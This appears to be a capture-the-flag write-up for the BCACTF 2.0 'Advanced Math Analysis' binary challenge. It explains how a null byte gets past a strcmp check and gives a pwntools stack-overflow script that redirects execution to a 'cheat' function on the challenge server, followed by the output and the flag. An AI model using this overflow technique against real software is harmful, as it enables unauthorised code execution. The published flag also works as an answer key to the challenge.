


# BCACTF 2.0 – Advanced Math Analysis

* **Category:** Binex
* **Points:** 200
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> The advanced course covers the same content as the non-advanced course and then some. Specifically, it also teaches some units on logic and geometry.
>
> Now, I'm personally not the biggest fan of geometry, so I'll spare you from that. But you'll definitely need to spend some time logicing this challenge out!

## Solution

The challenge page provides us with a [binary](Backup/adv-analysis) and the [C code](Backup/adv-analysis.c) it was compiled from.

By looking at the code we can quickly see that it's nearly identical to [Math Analysis](Math%20Analysis.md). Our goal is once again to execute the `cheat` function. The catch is that it now checks if our input equals `i pledge to not cheat` using [strcmp](https://man7.org/linux/man-pages/man3/strcmp.3.html).

strcmp will compare two strings character by character until it finds a character that differs, or until it reaches a null byte. We can send a null byte by using CTRL+@(shows as ^@ in the console), so after loading the binary in gdb, we send `i pledge to not cheat^@AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL` to see where the return address is located.





After grabbing the address of the cheat function from gdb, we now have all we need to exploit this binary.

```python
from pwn import *

#p = process('./adv-analysis')
p = remote('bin.bcactf.com', 49156)

offs_cheat = 0x401216

p.sendline(b"i pledge to not cheat\x00" + b"A"*50 + p64(offs_cheat))

p.interactive()
```

Running this results in
```
Welcome to the more advanced math class!
Unlike the folks in regular analysis, you'll have to put in more effort.
That's because this class has a strict anti-cheating defense.
Ha, take that!
We have to maintain the BCA reputation somehow, y'know.
> Hey, I'm glad you decided to be honest and not cheat!
Makes my life a whole lot easier when I can let my guard down.
You still have to do tests and whatnot, but that's a you problem.
bcactf{corresponding_parts_of_congurent_triangles_are_congruent_ie_CPCCTCPTPPTCTC}
```

So the flag for this challenge is:

`bcactf{corresponding_parts_of_congurent_triangles_are_congruent_ie_CPCCTCPTPPTCTC}`